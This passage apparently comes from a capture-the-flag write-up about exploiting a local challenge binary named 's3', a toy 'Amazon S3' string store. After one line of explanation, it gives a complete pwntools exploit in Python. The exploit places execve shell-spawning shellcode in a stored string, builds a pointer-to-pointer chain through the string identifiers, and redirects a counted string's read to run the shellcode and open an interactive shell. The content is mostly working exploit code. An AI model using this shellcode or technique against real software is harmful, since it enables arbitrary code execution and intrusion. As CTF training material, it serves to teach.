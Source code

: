 Keep in mind that when the read function executes on counted strings, it expects a pointer to a pointer, so that is why we need to also have a pointer to a pointer which contains the shellcode. Here is the python exploit I wrote which does all of that.

```
#Import Pwntools
from pwn import *

#Start the process
target = process('./s3')

#Establish the function which will create a string, and return the identifier used for it
def create_string(stype, string):
	target.sendline('c ' + str(stype) + ' ' + string)
	leak = target.recvline()
	print leak
	leak = leak.replace(" Your stored string's unique identifier is: ", "")
	leak = int(leak)
	print target.recvuntil(">")
	return leak

#Establish the function whichb will update a string, and return the indetifier used for it
def update_string(id, string):
	target.sendline('u ' + str(id) + ' ' + string)
	leak = target.recvline()
	print leak
	leak = leak.replace(" Your stored string's new unique identifier is: ", "")
	leak = int(leak)
	print target.recvuntil(">")
	return leak

#Print out the start banner
print target.recvuntil("Exit Amazon S3")
print target.recvuntil('>')

#Establish our shellcode, and create the first null terminated string which contains the shellcode
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode_addr = create_string(0, shellcode)
print "The shellcode is stored at: " + hex(shellcode_addr)

#Create second null terminated string which just takes up space
pointer_addr = create_string(0, p64(shellcode_addr))
print "The space holder string is stored at: " + hex(pointer_addr) + " " + p64(pointer_addr)

#Create the thrid null terminated string which contains a pointer to the shellcode pointer
pointer_addr = create_string(0, p64(shellcode_addr))
print "The pointer is stored at: " + hex(pointer_addr) + " " + p64(pointer_addr)

#Create the counted string, doesn't matter what it is equal to
setup_addr = create_string(1, "guyinatuxedo")
print "The setup address is " + hex(setup_addr)


execution_addr = update_string(setup_addr, p64(pointer_addr))
print "The execution address is: " + hex(execution_addr)

#Read the updated counted string, pop the shell, and drop to an interactive shell
target.sendline('r ' + str(execution_addr))
target.interactive()
``` 
